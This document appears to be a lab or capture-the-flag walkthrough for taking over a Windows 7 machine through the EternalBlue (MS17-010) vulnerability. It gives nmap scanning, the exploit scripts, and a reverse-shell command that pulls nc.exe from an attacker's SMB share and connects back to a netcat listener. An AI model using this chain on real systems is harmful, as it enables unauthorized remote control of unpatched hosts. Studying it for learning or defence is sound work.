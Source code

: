 1. Enumerate with nmap

2. After seeing that the machine is a Windows 7 you can try to look for an eternal blue with nmap and .nse scripts. usage: "nmap -p __{PORT}__ __{IP}__ --scripts "vuln and safe""

3. According to nmap the machine is susceptible to EternalBlue attack so you can go to worawit MS17-010 exploit in order to get a python2 script to exploit the vuln automatically

4. Install everything needed to run the checker.py with "python2 -m pip install __{impacket}__"

5. Run the checker.py program with the username set to __guest__ in order to not get your connection rejected

6. Run the zzz_autoexploit.py with the username also set to guest and the command to execute after exploit to "cmd /c \\\\__{LOCAL-IP}__\\__{FOLDER}__\\nc.exe -e cmd __{LOCAL-IP}__ __{PORT}__"
As you're on a powershell, this command tells windows to open a cmd and run the code after the /c flag
    - \\\\__{IP}__\\__{FOLDER}__\\nc.exe : Tells windows to search the file "nc.exe" in the network share in __{IP}__ in the folder __{FOLDER}__
	- "-e cmd __{LOCAL-IP}__ __{PORT}__" : Tells the nc app to start cmd and recieve and send: output, input and errors to __{IP}__ __{PORT}__ specified

7. Download netcat for windows in order to serve it to the "client" that is going to ask for it with the eternal blue exploit

8. Start in your local machine the smb server with impacket. usage: impacket-smbserver __{FOLDER}__ __{NETCAT-PATH}__ -smb2support
    __{FOLDER}__ : It's going to be the name of the server we're setting the client later asks for (previously set in the exploit) when entering the network share __{LOCAL-IP}__
    __{NETCAT-PATH}__: It's has to be the local folder with the nc.exe eg.: $(pwd) if nc.exe is in the folder you're currently at.
	-smb2support : It's used if you want to make your server smb2 supportive

9. Start the local server the victim's machine will try to connect when executes the command with the netcat previously downloaded from the network share. Usage: "nc -lvnp __{PORT}__"
    -l : Set the port to a listen state
    -v : Verbose 
    -n : Don't apply dns resolution
    -p : Port:

10. Send the exploit to the machine and recieve full control in the netcat listening service previously set.